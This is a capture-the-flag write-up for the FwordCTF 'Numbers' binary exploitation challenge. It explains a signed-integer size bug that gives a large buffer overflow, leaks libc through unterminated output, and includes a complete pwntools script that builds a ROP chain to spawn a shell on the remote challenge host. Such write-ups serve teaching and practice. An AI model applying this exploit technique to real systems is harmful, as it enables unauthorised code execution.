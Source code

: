 Numbers 

The program is a constant prompt that...
1. Reads a number from us
2. Checks if the number is greater than 60, if so it tells us we're naughty and exits
3. Reads that amount of data into a 64 length buffer
4. Prints the data
5. Asks if we want to try again, just dont type n

There's also some prompts inbetween but those aren't important. At first glance, this seems perfectly secure. But actually, note this code snippet.
```javascript
  read(0,local_10,8);
  iVar1 = atoi(local_10);
```
It actually uses atoi to convert our input to a number, and atoi allows signed integers.

This means we can enter a negative number, like -1, and atoi will return `0xffffffff`

the read function takes a size_t parameter - it wont think we're trying to read -1 bytes of data, but `4294967295` bytes of data. Now that's a lot of overflow.

PIE is on, so we cant just overwrite the return address of the integer reading function, ret2plt and call it a day. Because it prints our input back at us, we can exploit it similarly to skywriting from redpwn.

As a recap, strings are terminated by null bytes. When a function, like printf in this case, attempts to print a string, it will continue reading data until it reaches a null byte, at which it will stop.

If we make our input long enough, overwriting null bytes and nudging itself next to some data, said data can be leaked.
Imagine it like this:
```
00 00 00 00 de ad be ef
```
(our input is at the beginning, and we wish to leak the 0xdeadbeef data)
currently this reads as an empty string
let's fill the input with `AAAA`
```
41 41 41 41 de ad be ef
```
Now, the null bytes have been overwritten, so the 0xdeadbeef is part of the string! This reads to be AAAA\xde\ad\be\ef.

8 bytes from the beginning of our buffer is atoi+16, we can leak this using this method and calculate the libc base. Our input is 72 bytes from the return address, so after leaking we will send 72 bytes of padding + poprdi + /bin/sh + retgadget(stack alignment) + system to overwrite the return address of the buffer reading function and pop a shell.

Then, cat `flag.txt` to get the flag.

1. Send size of -1 to gain large buffer overflow
2. Send 8 bytes to leak libc address(atoi+16)
3. Use libc-database find to get the remote libc(libc6_2.28-0ubuntu1_amd64)
4. Use size -1 trick again to overwrite return address and send system("/bin/sh") rop chain to pop a shell
```python
from pwn import *
e = ELF("./numbers")
context.arch = 'amd64'
p = e.process() if args.LOCAL else remote('numbers.fword.wtf', 1237)
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.28-0ubuntu1_amd64/libc.so.6")
def getoutput(data,cont=True):
    p.recvuntil(b"??\n")
    # We send -1 as a number because atoi allows negatives, but read will actually just interpret this as a request to read 0xffffffff bytes, giving us a lot of overflow
    p.send("-1\x00")
    p.recvline()
    # Our input is echoed(safe printf) so we can leak values because of lack of string termination, skywriting style
    p.send(data)
    if not cont:
        return
    p.recvuntil(data)
    ans = p.recvline()
    p.recvuntil(b"?\n")
    p.send('\n')
    return ans[:-1]
num = 0x40
libcleak = getoutput(b'A'*8).ljust(8,b'\x00')
libcleak = u64(libcleak)
log.info(f"Libc leak: {hex(libcleak)}")
libcbase = libcleak - 16 - libc.symbols['atoi']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
padding = b'A'*0x48
rop = ROP(libc)
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
retgadget = (rop.find_gadget(['ret']))[0]
chain = flat(poprdi,next(libc.search(b"/bin/sh\x00")),retgadget,libc.symbols['system'])
getoutput(padding + chain,False)
p.interactive()
```

#### Flag: FwordCTF{s1gN3d_nuMb3R5_c4n_b3_d4nG3r0us}
